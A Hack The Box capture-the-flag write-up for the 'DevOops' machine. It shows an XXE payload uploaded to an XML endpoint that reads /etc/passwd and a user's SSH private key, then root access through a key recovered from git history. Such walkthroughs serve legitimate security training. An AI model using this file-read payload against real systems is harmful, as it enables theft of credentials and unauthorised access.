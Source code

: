 ```yaml
---
title: DevOops
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, burp, xml, xxe, medium]
math: true
---
```

# DevOops

>skills this box involved:
- enumeration  
- git command use
- XXE file read
# USER

After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
we can see that it comes back with two results.
```
/feed
/upload
```
Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
```xml
<test>
  <Author>fieldraccoon</Author>
  <Subject>fieldraccoon</Subject>
  <Content>fieldraccoon</Content>
</test>
```
this is the data we add to our initial payload and we get a request back form the server.

```bash
PROCESSED BLOGPOST: 
  Author: fieldraccoon
 Subject: fieldraccoon
 Content: fieldraccoon
 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
 ```
 We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
 
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<test>
  <Author>fieldraccoon</Author>
  <Subject>&file;</Subject>
  <Content>fieldraccoon</Content>
</test>
```
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to `file:///home/roosa/.ssh/id_rsa` This works perfectly and we read the ssh key. we copy this file to our box and ssh as roosa and read the user flag.

# ROOT
as we ssh we find that there is a git directory in /home/roosa/work/blogfeed/.git
we run `git log` to see if we find anything interesting and luckily we do.
```xml
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key
```
This means that the user had an old ssh key reverted(its the root ssh key) so we need to try and find a way to get this.
We run `git show 33e87c312c08735a02fa9c796021a4a3023129ad` and it shows us the root key,
We copy it to our box once again, give it appropriate permissions and ssh as root.

Please drop me some respecet if you found my writeup worth the read :)

https://www.hackthebox.eu/home/users/profile/246314


